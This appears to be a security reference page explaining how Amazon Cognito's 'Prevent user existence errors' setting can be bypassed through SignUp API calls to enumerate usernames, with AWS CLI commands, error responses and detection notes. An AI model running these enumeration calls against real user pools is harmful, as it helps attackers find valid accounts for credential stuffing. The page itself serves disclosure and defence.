

<div class="grid cards" markdown>
-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    AWS Docs: [Managing user existence error responses](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html)
</div>

Amazon [Cognito](https://aws.amazon.com/cognito/) is a popular “sign-in as a service” offering from AWS. It allows developers to push the responsibility of developing authentication, sign up, and secure credential storage to AWS so they can instead focus on building their app.

By default, Cognito will set a configuration called `Prevent user existence errors`. This is designed to prevent adversaries from [enumerating accounts](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/03-Identity_Management_Testing/04-Testing_for_Account_Enumeration_and_Guessable_User_Account) and using that information for further attacks, such as [credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing).

While this is useful in theory, and a good default to have, it can be bypassed via [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls for usernames. This bypass was originally reported via a GitHub [issue](https://github.com/aws-amplify/amplify-js/issues/6238) in July 2020 and Cognito is still vulnerable as of early 2024.

!!! Note
	Cognito user pools can be configured to prevent disclosing user existence errors via [alias attributes](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html#cognito-user-pool-managing-errors-prevent-userexistence-errors) for email addresses and phone numbers, but not usernames. Be mindful that the 'Prevent user existence errors' setting does not cover all scenarios as detailed below.    

## Example Responses

To demonstrate the responses depending on the configuration and if a user does/does not exist, here are some examples. The `admin` user exists in the user pool and is the account we will be trying to enumerate.

!!! Note
	The `client-id` value for a Cognito User Pool is not secret and is accessible from the JavaScript served by the client. 

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (UserNotFoundException) when calling the InitiateAuth operation: User does not exist.
```

As you can see, an adversary can use the `UserNotFoundException` and `NotAuthorizedException` to enumerate whether an account does or does not exist. By enabling the `Prevent user existence errors` configuration, defenders can successfully mitigate these types of attacks. However we will show how it can be bypassed.

## cognito-idp:SignUp

The `Prevent user existence errors` configuration appears to only impact the `initiate-auth` flow. It does not impact [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html). Because of this we can use this API call to enumerate if a user does or does not exist. Please see the following examples:

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username admin \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"

An error occurred (UsernameExistsException) when calling the SignUp operation: User already exists
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username notreal \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"
{
	"UserConfirmed": false,
	"CodeDeliveryDetails": {
    	"Destination": "b***@b***",
    	"DeliveryMedium": "EMAIL",
    	"AttributeName": "email"
	},
	"UserSub": "a20…"
}
```

## Detection Opportunities

If an adversary is using this technique at scale to identify what accounts exist in your user pool, you can attempt to detect this behavior by alerting on a sudden increase in `Unconfirmed` user accounts.



Depending on the configuration of your user pool, an adversary could attempt to get around this by using a real email address to confirm the user name.

### CloudTrail and CloudWatch Limitations

If you attempt to build detections around this using CloudTrail or CloudWatch, you will run into challenges. This is because a significant portion of useful telemetry (basically all of it) is omitted in these logs. For example, the `userIdentity` who made the API call is `Anonymous`

```json
{
	"eventVersion": "1.08",
	"userIdentity": {
    	"type": "Unknown",
    	"principalId": "Anonymous"
}
```

And the `username` and `userAttributes` are hidden:

```json
"requestParameters": {
    "clientId": "719...",
    "username": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "password": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "userAttributes": "HIDDEN_DUE_TO_SECURITY_REASONS"
}
```

For this reason, you can use CloudTrail or CloudWatch to track the number of [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls, and their associated `sourceIPAddress`, but not access their details. 
